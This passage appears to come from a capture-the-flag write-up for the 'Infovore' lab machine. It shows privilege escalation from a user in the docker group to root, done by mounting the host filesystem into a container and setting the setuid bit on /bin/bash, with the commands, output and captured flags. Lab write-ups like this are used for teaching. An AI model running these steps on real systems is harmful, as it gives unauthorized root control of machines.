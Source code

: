 ```
admin@infovore:~$ ls
admin.txt
admin@infovore:~$ cat admin.txt 
FLAG{Escaped_from_D0ck3r}
admin@infovore:~$ 
```

At this point we have to do a thorough scan again, but one thing that caught my attention is that this machine is using docker and we try to list with the **id** command the groups of the admin user, bingo we found that the admin user is in the docker group

```
admin@infovore:~$ id
uid=1000(admin) gid=1000(admin) groups=1000(admin),999(docker)
admin@infovore:~$ 
```

To become a **ROOT** we have to do the following

```
admin@infovore:~$ docker pull ubuntu:latest
latest: Pulling from library/ubuntu
9c704ecd0c69: Pull complete 
Digest: sha256:2e863c44b718727c860746568e1d54afd13b2fa71b160f5cd9058fc436217b30
Status: Downloaded newer image for ubuntu:latest

admin@infovore:~$ docker run --rm -dit -v /:/mnt/root --name privesc ubuntu
864b7ba1b33099324215eb1688053f8a16fb951ea4aaf5b80fa21002e948e364

admin@infovore:~$ docker exec -it privesc bash
root@864b7ba1b330:/# chmod u+s /mnt/root/bin/bash
root@864b7ba1b330:/# exit
exit
```

Now we are **ROOT**

```
admin@infovore:~$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt 
 _____                             _       _                                              
/  __ \                           | |     | |                                             
| /  \/ ___  _ __   __ _ _ __ __ _| |_ ___| |                                             
| |    / _ \| '_ \ / _` | '__/ _` | __/ __| |                                             
| \__/\ (_) | | | | (_| | | | (_| | |_\__ \_|                                             
 \____/\___/|_| |_|\__, |_|  \__,_|\__|___(_)                                             
                    __/ |                                                                 
                   |___/                                                                  
__   __                                         _   _        __                         _ 
\ \ / /                                        | | (_)      / _|                       | |
 \ V /___  _   _   _ ____      ___ __   ___  __| |  _ _ __ | |_ _____   _____  _ __ ___| |
  \ // _ \| | | | | '_ \ \ /\ / / '_ \ / _ \/ _` | | | '_ \|  _/ _ \ \ / / _ \| '__/ _ \ |
  | | (_) | |_| | | |_) \ V  V /| | | |  __/ (_| | | | | | | || (_) \ V / (_) | | |  __/_|
  \_/\___/ \__,_| | .__/ \_/\_/ |_| |_|\___|\__,_| |_|_| |_|_| \___/ \_/ \___/|_|  \___(_)
                  | |                                                                     
                  |_|                                                                     
 
FLAG{And_now_You_are_done}

@theart42 and @4nqr34z
 
bash-4.3# 
```

Arc4he.
